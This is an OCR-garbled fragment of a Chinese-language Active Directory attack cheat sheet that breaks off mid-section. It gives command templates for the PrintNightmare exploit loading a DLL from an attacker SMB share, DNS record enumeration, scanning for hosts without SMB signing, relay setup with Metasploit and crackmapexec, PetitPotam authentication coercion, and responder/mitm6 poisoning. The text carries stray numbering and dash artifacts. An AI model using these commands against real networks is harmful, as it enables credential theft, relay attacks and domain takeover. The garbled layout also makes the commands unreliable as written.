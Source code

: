 
### PrintNightmare


```
1-

CVE-2021-1675.py <domain>/<user>:<password>@<target> '\\\\<smb\_server\_ip>\\<share>\\inject.dll'-

```

### 枚举 DNS 服务器

1-

dnstool.py -u 'DOMAIN\\user' -p 'password' --record '\*' --action query <dc\_ip>-

# 7.relay/poisoning攻击

### 扫描没开启SMB签名的机器


nmap -Pn -sS -T4 --open --script smb-security-mode -p445 ADDRESS/MASK-
-
use exploit/windows/smb/smb\_relay-
-
cme smb $hosts --gen-relay-list relay.txt-

### PetitPotam


```
1-

PetitPotam.py -d <domain> <listener\_ip> <target\_ip>-
```


后续可以跟着adcs攻击

### 监听


```

responder -i eth0-
mitm6 -d <domain>-
```


## 无SMB签名 || 开启IPv6 || ADCS

### 1.MS08-068

1-
